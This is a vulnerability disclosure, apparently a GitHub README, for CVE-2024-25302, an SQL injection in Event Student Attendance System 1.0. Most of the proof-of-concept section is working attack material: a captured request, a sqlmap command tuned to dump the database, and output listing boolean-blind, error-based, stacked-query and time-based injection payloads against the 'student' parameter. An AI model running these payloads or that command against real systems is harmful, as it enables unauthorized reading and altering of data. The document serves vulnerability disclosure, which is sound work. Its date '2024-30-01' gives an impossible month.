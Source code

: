 # CVE-2024-25302 - Event Student Attendance System - SQL Injection
+ *Exploit Title:* Event Student Attendance System - SQL Injection
+ *Date:* 2024-30-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17139/event-student-attendance-system-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17139&title=Event+Student+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-25302

## References: 
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-25302
+ https://nvd.nist.gov/vuln/detail/CVE-2024-25302
+ https://vuldb.com/?id.253307
+ https://portswigger.net/web-security/sql-injection

## Description:
Event Student Attendance System 1.0, allows SQL Injection via the 'student' parameter in `http://localhost/event-student-attendance/endpoint/delete-student.php?student=3`. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event-student-attendance"
+ Select any student and press the delete-student button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /event-student-attendance/endpoint/delete-student.php?student=3 HTTP/1.1
Host: localhost
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database.
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: student (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: student=3' RLIKE (SELECT (CASE WHEN (6164=6164) THEN 3 ELSE 0x28 END))-- gVVq

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: student=3' AND EXTRACTVALUE(1609,CONCAT(0x5c,0x71787a6271,(SELECT (ELT(1609=1609,1))),0x7176787871))-- qYlQ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: student=3';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=3' AND (SELECT 8964 FROM (SELECT(SLEEP(5)))RifB)-- PFRp
---
[16:48:22] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[16:48:22] [INFO] fetching current database
[16:48:22] [INFO] retrieved: 'event_attendance_db'
current database: 'event_attendance_db'
```
+ current database : `event_attendance_db`
  
  ![Ekran görüntüsü 2024-01-30 165509](https://github.com/tubakvgc/CVE/assets/74067343/bd372ec7-a7f3-4200-b030-ece2d90ab0f5)


  
